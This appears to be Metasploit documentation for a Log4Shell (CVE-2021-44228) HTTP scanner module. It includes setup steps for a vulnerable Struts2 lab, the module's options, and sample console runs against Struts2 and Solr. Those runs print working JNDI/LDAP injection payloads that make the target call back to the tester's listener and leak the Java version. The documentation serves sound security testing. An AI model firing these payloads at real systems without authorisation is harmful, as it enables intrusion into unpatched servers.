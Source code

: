 ## Vulnerable Application
This module will scan an HTTP end point for the Log4Shell vulnerability by injecting a format message that will
trigger an LDAP connection to Metasploit. This module is a generic scanner and is only capable of identifying
instances that are vulnerable via one of the pre-determined HTTP request injection points. These points include
HTTP headers and the HTTP request path. URI paths for common, known-vulnerable applications are included
in the `data/exploits/CVE-2021-44228/http_uris.txt` data file.

This module has been successfully tested with:

* Apache Solr
* Apache Struts2
* Spring Boot
* VMWare VCenter

## Verification Steps

1. Setup a vulnerable Struts2 instance (see the steps below)
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/log4shell_scanner`
4. Set the `SRVHOST`, `RHOSTS`, `RPORT` and `TARGETURI` options
    * For Struts2, set `TARGETURI` to `/struts2-showcase/`
5. Do: `run`
6. The target should be identified as vulnerable

### Apache Struts2 Setup

The following docker file can be used to setup a vulnerable Struts2 instance for testing.

```
#
# To build the image:
#   docker build . -t struts2:2.5.28
# To run the container:
#   docker run --name struts2 --rm -p 8080:8080 struts2:2.5.28
#

ARG version=2.5.28
FROM bitnami/tomcat:9.0
USER root
ENV TOMCAT_PASSWORD password

RUN apt-get update && \
	apt-get -y install unzip && \
	apt-get clean && \
	rm -rf /var/lib/apt/lists/* /tmp/* /var/tmp/*

RUN curl https://archive.apache.org/dist/struts/2.5.28/struts-2.5.28-all.zip > struts-all.zip && \
	unzip struts-all.zip && \
	cp /struts-2.5.28/apps/struts2-showcase.war /bitnami/tomcat/webapps/
```

## Options

### HTTP_METHOD
The HTTP method to use.

### HEADERS_FILE
File containing headers to check, one per line. Lines starting with `#` will be treated as comments.

### URIS_FILE
File containing additional URIs to check, one per line. These values will be appended to the `TARGETURI` option. Lines 
starting with `#` will be treated as comments. Lines may also contain the string `${jndi:uri}` which will be used as the
injection point. This enables query parameters to be included in the request which are required for certain
applications.

### LDAP_TIMEOUT
Time in seconds to wait to receive LDAP connections.

## Scenarios

### Apache Struts2

```
msf6 > use auxiliary/scanner/http/log4shell_scanner 
msf6 auxiliary(scanner/http/log4shell_scanner) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf6 auxiliary(scanner/http/log4shell_scanner) > set SRVHOST 192.168.159.128
SRVHOST => 192.168.159.128
msf6 auxiliary(scanner/http/log4shell_scanner) > set RPORT 8080
RPORT => 8080
msf6 auxiliary(scanner/http/log4shell_scanner) > set TARGETURI /struts2-showcase/
TARGETURI => /struts2-showcase/
msf6 auxiliary(scanner/http/log4shell_scanner) > run

[*] Started service listener on 192.168.159.128:389 
[+] Log4Shell found via /struts2-showcase/%24%7bjndi%3aldap%3a%24%7b%3a%3a-/%7d/192.168.159.128%3a389/r7yol50kgg7be/%24%7bsys%3ajava.vendor%7d_%24%7bsys%3ajava.version%7d%7d/ (java: BellSoft_11.0.13)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/log4shell_scanner) > 

```

### Apache Solr

Apache Solr is trivially exploitable by a remote and unauthenticated attacker when in its default configuration:

```
msf6 > use auxiliary/scanner/http/log4shell_scanner
msf6 auxiliary(scanner/http/log4shell_scanner) > run http://10.10.235.209:8983/ srvhost=10.9.4.245

[*] Started service listener on 10.9.4.245:389
[+] 10.10.235.209:8983    - Log4Shell found via /solr/admin/cores?action=CREATE&wt=json&name=%24%7bjndi%3aldap%3a/10.9.4.245%3a389/vslscuy7m6q9pgfc18h/%24%7bsys%3ajava.vendor%7d_%24%7bsys%3ajava.version%7d%7d (java: Oracle Corporation_1.8.0_181)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Sleeping 30 seconds for any last LDAP connections
[*] Auxiliary module execution completed
```
